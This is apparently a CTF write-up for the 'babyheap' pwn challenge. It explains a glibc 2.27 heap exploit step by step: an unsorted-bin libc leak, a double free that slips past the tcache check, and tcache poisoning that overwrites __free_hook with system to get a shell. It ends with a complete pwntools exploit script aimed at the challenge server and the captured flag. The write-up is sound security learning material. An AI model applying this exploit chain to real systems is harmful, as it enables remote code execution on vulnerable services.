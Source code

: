 ## 0x41414141 CTF: babyheap [pwn]
![](babyheap_desc.png)

##### *tl;dr: double free to perform a tcache poison*
## Background Information
#### After some time of studying, I finally exploited my first heap pwn chall on an ongoing ctf! Although this was of baby difficulty, I consider this as a win and the first of more heap pwn solves to come. As a bonus, I was the fourth player to flag the challenge. This will only be a rushed writeup, I will go in depth with explanations later when I have time.

## Function Details
#### We were given the common menu based heap challenge, along with the libc and ld files. All the protections were turned on and the binary was not stripped making reverse engineering easier. The menu offered three options which are as follows:

![](babyheap_menu.png)
#### 1. alloc memory: this option prompts for user-controlled sizes which malloc will allocate, asks for what index to store the chunk in, and scans data to be placed into the chunk "body". Once an index has been filled, it cannot be used again even when the chunk contained in the index has already been freed. It is important to take note of this detail as it restricts some choices later. We are only allowed a total of 8 allocations. Reads data up to the size provided, no overflows. 

#### 2. show data: we simply provide an index and the program prints out the contents of that chunk to us.

#### 3. free memory: frees the chunk at a given index but does not null out the pointer thus allowing for use-after-free situations. 

## Attack plans for GLIBC 2.27
#### In this version of libc, the tcache is introduced. Basically, it's a mechanism designed to reuse recently allocated memory chunks to improve performance. For a brief overview of what it does, it stores 7 chunks of the same size into a singly linked list, where the fd pointer of a freed chunk points to the next entry in the bin. If the list for a certain size has reached the limit, the freed chunk will be stored into the unsorted bin list, where it will contain a pointer to the main arena (somewhere within libc). 

#### Although additional checks are added (like the provided snippet below), we can still bypass and perform a double free attack for the challenge. We will use this double free to do a tcache poison and trick malloc into returning a pointer to `__free_hook` to us. Since malloc checks whether the chunk we want to free is already at the top of the tcache list, we simply insert another chunk in between to bypass it.

```c
    if (SINGLE_THREAD_P)
      {
	/* Check that the top of the bin is not the record we are going to
	   add (i.e., double free).  */
	if (__builtin_expect (old == p, 0))
	  malloc_printerr ("double free or corruption (fasttop)");
	p->fd = old;
	*fb = p;
      }
    else
      do
	{
	  /* Check that the top of the bin is not the record we are going to
	     add (i.e., double free).  */
	  if (__builtin_expect (old == p, 0))
	    malloc_printerr ("double free or corruption (fasttop)");
	  p->fd = old2 = old;
	}
```

## Unsorted bin leak
#### The first steps to a heap exploit would usually be heap fengshui (grooming the heap) and a libc leak. But due to restrictions, we can't simply allocate and free 8 chunks to get a leak. What I did was allocate a chunk with a size that is not serviceable by the tcache bin and instead will go to the unsorted bin. Since it will have its fd and bk pointers set, I will reallocate the chunk and only overwrite the fd pointer then print out the contents along with the libc infoleak (it will work because our input is not null terminated). An extra allocation should also be placed so that the chunk does not consolidate into the top chunk.

```python
alloc_chunk(0x410, 0, 'A' * 0x410) #: SEND THIS CHUNK TO UNSORTED BIN
alloc_chunk(0x20, 1, 'B' * 0x20) #: AVOID CONSOLIDATION WITH TOP CHUNK

#: LEAK MAIN ARENA POINTER
free_chunk(0)
alloc_chunk(0x410, 2, '1111111') #: CHUNK FROM UNSORTED BIN
p.sendline('2')
p.sendline('2')

leak = u64(p.recvuntil('Exit\n').split('\n')[3].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0

print(hex(leak))
print(hex(libc_base))
```

![](babyheap_unsorted.png)

## double free to tcache poison
#### With the leak, we can simply calculate the libc base address and offsets. Nex step is to do a double free then allocate a chunk and set the fd pointer of the double free'd chunk into the address of `__free_hook`. With this we get to add the address of the hook into the tcache free list. 

```python
#: DOUBLE FREE TO GET __free_hook
alloc_chunk(0x20, 3, 'C' * 0x20)

free_chunk(1)
free_chunk(3) #: ADD A CHUNK IN BETWEEN TO BYPASS SECURITY CHECKS
free_chunk(1)

alloc_chunk(0x20, 4, p64(libc_base + libc.symbols['__free_hook'])) #: TCACHE POISON TO ADD FREE HOOK ADDRESS TO TCACHE
```

#### From this point, we simply allocate chunks until malloc gives us the pointer to the hook. When we get the hook pointer, we overwrite it with the address of system so that the next time we free a chunk, it calls system before freeing it. Since we will have access to system, we also need to allocate a chunk with `'/bin/sh\x00'` as its first 8 bytes and free it to get a shell.

```python
alloc_chunk(0x20, 4, p64(libc_base + libc.symbols['__free_hook'])) #: TCACHE POISON
alloc_chunk(0x20, 5, '/bin/sh\x00') #: ARGUMENT TO SYSTEM
alloc_chunk(0x20, 6, 'PLACEHOLDER')
alloc_chunk(0x20, 7, p64(libc_base + libc.symbols['system'])) #: CHUNK ON TOP OF __free_hook

p.interactive()
```
![](babyheap_freehook.png)

#### As we get dropped into the interactive prompt, we simply input the options to free the chunk on the 5th index and then we enjoy our shell!

![](babyheap_shell.png)

#### exploit.py
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./babyheap', checksec = False)
libc = ELF('./libc/libc-2.27.so', checksec = False)

#p = process('./babyheap', env = {'LD_PRELOAD' : './libc/libc-2.27.so'})
p = remote("185.172.165.118", 5555)
print(p.recvuntil('Exit\n'))

#: GDB SETTINGS
breakpoints = ['brva 0x1363', 'brva 0x151a']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def alloc_chunk(size, index, data):

	p.sendline('1')
	p.sendline(str(size))
	p.sendline(str(index))
	p.sendline(data)
	print(p.recvuntil('Exit\n'))

def free_chunk(index):

	p.sendline('3')
	p.sendline(str(index))
	print(p.recvuntil('Exit\n'))

#: PWN THY VULNS
alloc_chunk(0x410, 0, 'A' * 0x410) #: SEND THIS CHUNK TO UNSORTED BIN
alloc_chunk(0x20, 1, 'B' * 0x20) #: AVOID CONSOLIDATION WITH TOP CHUNK

#: LEAK MAIN ARENA POINTER
free_chunk(0)
alloc_chunk(0x410, 2, '1111111') #: CHUNK FROM UNSORTED BIN
p.sendline('2')
p.sendline('2')

leak = u64(p.recvuntil('Exit\n').split('\n')[3].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0

print(hex(leak))
print(hex(libc_base))

#: DOUBLE FREE TO GET __free_hook
alloc_chunk(0x20, 3, 'C' * 0x20)

free_chunk(1)
free_chunk(3) #: ADD A CHUNK IN BETWEEN TO BYPASS SECURITY CHECKS
free_chunk(1)

alloc_chunk(0x20, 4, p64(libc_base + libc.symbols['__free_hook'])) #: TCACHE POISON
alloc_chunk(0x20, 5, '/bin/sh\x00') #: ARGUMENT TO SYSTEM
alloc_chunk(0x20, 6, 'PLACEHOLDER')
alloc_chunk(0x20, 7, p64(libc_base + libc.symbols['system'])) #: CHUNK ON TOP OF __free_hook

p.interactive()
#: fl4g{us1ng_4_d0ubl3_fr33_1s_s1mpl3r_s41d_th4n_d0n3_8329321}
```
